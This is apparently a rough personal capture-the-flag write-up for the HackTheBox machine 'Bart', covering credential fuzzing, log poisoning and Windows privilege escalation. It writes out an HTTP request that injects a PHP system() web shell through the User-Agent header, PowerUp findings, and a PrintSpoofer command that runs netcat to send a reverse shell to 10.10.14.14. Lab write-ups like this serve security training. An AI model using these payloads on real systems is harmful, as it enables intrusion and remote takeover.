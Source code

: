 in http://bart.htb/monitor/
we use username anarchy to create user list, cupp to create pass list and zaproxy to fuzzing login page
we get credentials harvey:potter 
[all my records were deleted by the antivirus( ]

we found subdomain internal-01.bart.htb
after fuzzing we found log/log.txt /log/log.php files
in log.txt we get harvey username

so we generate payload to our get request in log.php
need to give it its proper look obsidian is blocking my entries and deleting the file so I can't add it <? ?> in user agent

GET /log/log.php?filename=log.php&username=harvey&cmd=dir HTTP/1.1
Host: internal-01.bart.htb
User-Agent: php system($_REQUEST['cmd']); 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: PHPSESSID=hc1a7neimsefpcbpqqp2kqn7kv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

PowerUp result:
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 912
ProcessId   : 5248
Name        : 5248
Check       : Process Token Privileges

ModifiablePath    : C:\ProgramData\ComposerSetup\bin
IdentityReference : BUILTIN\Users
Permissions       : {Delete, WriteAttributes, Synchronize, ReadControl...}
%PATH%            : C:\ProgramData\ComposerSetup\bin
Name              : C:\ProgramData\ComposerSetup\bin
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 
                    'C:\ProgramData\ComposerSetup\bin\wlbsctrl.dll'

we can use get-registryautologon its function powerup and also escalate privilege with seimpersonate
./PrintSpoofer.exe -c "C:\inetpub\wwwroot\internal-01\log\nc.exe 10.10.14.14 9002 -e cmd"
